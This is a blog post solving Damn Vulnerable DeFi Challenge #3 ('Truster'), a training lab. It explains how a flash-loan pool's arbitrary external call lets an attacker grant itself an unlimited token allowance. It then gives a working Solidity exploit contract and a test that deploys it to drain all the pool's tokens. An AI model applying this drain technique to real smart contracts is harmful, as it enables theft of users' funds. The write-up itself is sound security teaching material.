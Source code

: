 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #3 Solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #3: Truster'
tags: ['defi', 'solidity']
publishDate: 'Feb 20, 2023 05:48 PM'
---
```



# {frontmatter.title}

<Quote />

*Published <FormattedDate client:only="react" date={props.date} />*

> ## Challenge #3 - Truster
>
> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> The pool holds 1 million DVT tokens. You have nothing.
>
> To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

The pool's `flashLoan` function implements some preventative measures against attacks. Namely, it uses the nonReentrant modifier and an if statement that reverts if its balance is less than its balance before the transfer.

```solidity
// contracts/truster/TrusterLenderPool.sol

function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore)
        revert RepayFailed();

    return true;
}
```

There is a single line that throws the contract's security out the window.

`target.functionCall(data);`

It may seem fine since the contract checks its token balance after the function call, but allowing arbitrary function calls is almost never a good idea. It is extremely tricky to audit interactions with external contracts.

The DVT contract inherits from Solmate's ERC20 + EIP-2312 implementation. One method from the ERC-20 specification stands out:

> ### approve
>
> Allows `_spender` to withdraw from your account multiple times, up to the `_value` amount. If this function is called again it overwrites the current allowance with `_value`.

Solmate implements it in its ERC20 contract:

```solidity
// node_modules/solmate/src/tokens/ERC20.sol

function approve(
    address spender,
    uint256 amount
) public virtual returns (bool) {
    allowance[msg.sender][spender] = amount;

    emit Approval(msg.sender, spender, amount);

    return true;
}
```

Since the pool allows us to call any function on its behalf, we can call `approve` with the pool as `msg.sender`. We can set our own allowance, and then transfer the pool's balance to ourselves!

These two actions must be done separately because `flashLoan` would revert if we simply transferred the tokens to ourselves (`RepayFailed`). We can perform multiple actions in a single transaction by executing them in a contract's `constructor`.

Let's create a contract that takes control of all of the pool's tokens. The contract then transfers the tokens to a beneficiary (us).

```solidity
// contracts/truster/Trustee.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";

contract Trustee {
    constructor(TrusterLenderPool pool) {
        pool.flashLoan(
            // "amount" has to be 0.
            // We can't borrow because we won't be repaying a loan.
            0,
            // "borrower" can be any address since we're not borrowing.
            address(0),
            // "target" is the contract we are calling.
            address(pool.token()),
            // "data" is what we call "target" with.
            // We send the approve function's signature along with its arguments.
            // We approve an unlimited amount for Trustee to manage.
            abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            )
        );

        pool.token().transferFrom(
            address(pool),
            msg.sender,
            pool.token().balanceOf(address(pool))
        );
    }
}
```

Now we just compile and deploy `Trustee`. It will transfer all tokens to the deployer on deployment.

```js
// test/truster/truster.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Trustee', player)
  ).deploy(pool.address)
})
```
